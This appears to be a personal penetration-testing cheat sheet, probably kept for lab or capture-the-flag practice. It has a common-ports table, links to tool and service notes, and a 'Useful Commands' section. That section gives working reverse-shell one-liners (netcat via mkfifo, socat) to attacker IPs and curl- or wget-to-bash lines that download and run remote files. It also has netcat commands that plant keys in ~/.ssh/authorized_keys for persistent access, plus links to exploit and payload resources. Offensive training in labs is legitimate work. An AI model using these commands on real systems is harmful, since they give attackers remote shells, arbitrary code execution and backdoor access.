 # CheatSheet

## Ports
| Service | Port      |
|:-------:|:---------:|
| FTP     | 20 / 21   |
| SSH     | 22        |
| Telnet  | 23        |
| SMTP    | 25        |
| DNS     | 53        |
| HTTP    | 80        |
| POP3    | 110       |
| HTTPS   | 443       |
| SMB     | 139 / 445 |
| NFS     | 2049      |
| MySQL   | 3306      |

## Tools
- [Rustscan](tool/rustscan.md)
- [Nmap](tool/nmap.md)
- [MSFVenom](tool/msfvenom.md)
- [Gobuster](tool/gobuster.md)
- [Hydra](tool/hydra.md)
- [John the Ripper](tool/john.md)
- [Hashcat](tool/hashcat.md)
- [Netcat](tool/netcat.md)

## Workflow by service
- [SSH](service/ssh.md)
- [SMB](service/smb.md)
- [Telnet](service/telnet.md)
- [NFS](service/nfs.md)
- [FTP](service/ftp.md)
- [SMTP](service/smtp.md)
- [MySQL](service/mysql.md)

## Useful Commands
### Shell payload
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

### Download file
#### Shell script
```
curl 10.10.14.7/[FILE] | bash
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; bash /tmp/$FILE
```

#### Others
```
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; /tmp/$FILE
```

### LinEnum
```
curl 10.10.14.7/LinEnum.sh | bash
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh; bash /tmp/LinEnum.sh
```

### Socat
#### Target
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4445
```

#### Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4445
```

#### To upgrade more
```
export SHELL=bash; export TERM=xterm-256color; stty rows 60 columns 126
```

### Tramp (Emacs)

#### Basic
```
ls $HOME && { { ls $HOME/.ssh || mkdir $HOME/.ssh; } && nc -lp 7777 >> $HOME/.ssh/authorized_keys; }
```

#### Socat Pattern
```
ls $HOME && { { ls $HOME/.ssh || mkdir $HOME/.ssh; } && nc -lp 7777 >> $HOME/.ssh/authorized_keys; } || { nc -lp 7777 > /tmp/socat && chmod +x /tmp/socat && /tmp/socat file:`tty`,raw,echo=0 TCP-L:7777; }
```

#### Shell Upgrade Pattern
```
ls $HOME && { { ls $HOME/.ssh || mkdir $HOME/.ssh; } && nc -lp 7777 >> $HOME/.ssh/authorized_keys; } || { nc -lp 7777 > /tmp/upgrade-shell.sh && chmod +x /tmp/upgrade-shell.sh && . /tmp/upgrade-shell.sh; }
```

## CVEs
- CVE : 2014-6287 ([39161](cve/cve-2014-6287-39161.md))
- CVE : 2014-6287 ([49125](cve/cve-2014-6287-49125.md))


## Reference
### Tools
CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/

CyberChef  
https://gchq.github.io/CyberChef/

### Exploit Search
Exploit DB  
https://www.exploit-db.com/

GTFOBins  
https://gtfobins.github.io/

### Document
MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

### Cheatsheet
PayloadsAllTheThings / Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

PayloadsAllTheThings / Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

Upgrading Simple Shells to Fully Interactive TTYs  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
